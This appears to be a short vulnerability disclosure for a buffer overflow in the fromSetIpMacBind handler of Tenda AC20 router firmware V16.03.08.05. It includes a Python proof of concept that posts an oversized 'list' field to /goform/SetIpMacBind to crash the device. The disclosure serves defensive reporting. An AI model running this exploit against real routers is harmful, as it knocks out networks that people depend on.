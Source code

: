 A buffer overflow vulnerability exists in Tenda AC20 V16.03.08.05, which is caused by the fromSetIpMacBind function not checking the length of the input data, which can be exploited by an attacker to launch a denial of service attack.

<img width="415" height="415" alt="image" src="https://github.com/user-attachments/assets/8a273570-206c-495b-bcc7-1d1a57e0b771" />



POC：
```
from pwn import *
import requests

payload = b'a'*0x1000

url = "http://192.168.100.254/goform/SetIpMacBind"

cookie = {"Cookie":"password=12345"}
data = {"list": payload, "bindnum": "1"}
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
print(response.text)
```
